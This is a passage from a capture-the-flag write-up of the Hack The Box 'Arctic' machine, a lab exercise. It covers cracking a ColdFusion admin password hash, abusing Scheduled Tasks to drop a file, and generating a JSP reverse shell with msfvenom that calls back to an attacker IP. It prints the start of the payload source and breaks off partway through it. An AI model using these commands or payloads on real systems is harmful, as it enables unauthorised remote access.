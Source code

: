 This reveals the **password hash**, which is then cracked with CrackStation:  

![[GitHub Documentation/EASY/HTB_Arctic_Writeup/screenshots1/crackstation.png]]

Password `happyday` obtained.

Login successful:  

![[GitHub Documentation/EASY/HTB_Arctic_Writeup/screenshots1/web_login.png]]

At this point, we know that we have **directory listing capabilities**, as we can access the `CFIDE` directory. This implies that, at the system level, there must be a corresponding filesystem path for this directory. If we can identify that path, we may be able to upload a malicious file into the system.

---
### 3.2 Uploading a Malicious JSP Payload

Among the various options available in the web interface, some are particularly interesting. Let’s go through them one by one:

- **Mapping**  
    This section reveals system paths, and conveniently we can see the path for `CFIDE`, which originates from `wwwroot`:

![[web_mapping.png]]  

- **Scheduled Tasks**  
    Another interesting section is **Scheduled Tasks**, which allows us to configure jobs that can download files from an external source and place them into a specified directory on the server. This feature can be abused to upload a malicious payload to the system.:

![[web_scheduled_tasks.png]]

Currently, there are no tasks configured, but we can create one. This is particularly interesting because scheduled tasks will download the files we specify into a chosen directory. In other words, we can configure an exploit and let the scheduled task place it into the system.

Since ColdFusion supports **ASP**, **JSP**, and **PHP**, the most suitable choice here is to create a malicious **JSP** payload. We can generate a reverse shell using **msfvenom**.

```bash
msfvenom -l payloads | grep jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -o reverse.jsp
```

![[msfvenom_payloads.png]]

Payload generated: `reverse.jsp`:

``` bash
<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream cb;
      OutputStream b0;
  
      StreamConnector( InputStream cb, OutputStream b0 )
      {
        this.cb = cb;
        this.b0 = b0;
      }
  
```